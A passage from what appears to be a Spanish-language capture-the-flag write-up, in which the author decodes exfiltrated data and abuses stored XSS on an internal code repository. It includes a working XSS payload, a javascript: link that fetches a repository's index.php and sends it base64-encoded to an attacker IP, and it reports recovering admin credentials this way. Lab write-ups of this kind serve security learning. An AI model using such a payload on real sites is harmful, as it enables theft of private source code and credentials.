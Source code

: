 ```python
    
    return step3

# Ejemplo de uso
encoded_data = "your_data"
decoded = decode_xss_data(encoded_data)
print(decoded)
```

y tendremos como resultado este mensaje 

``` txt

# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

Ok esto no tiene nada que nos ayude, bien intentaremos con cosas basicas, el sitio esta hecho en php, puede que dentro de este repo exista un index.php y es lo que intentaremos 

```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.X.X:443/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

Y tenemos el index.php codificado

![paste](./Images1/38.jpeg)

Usaremos de nuevo el decoder.py para decodificar el hash y obtenemos estas credenciales del usuario admin

![paste](./Images1/39.jpeg)
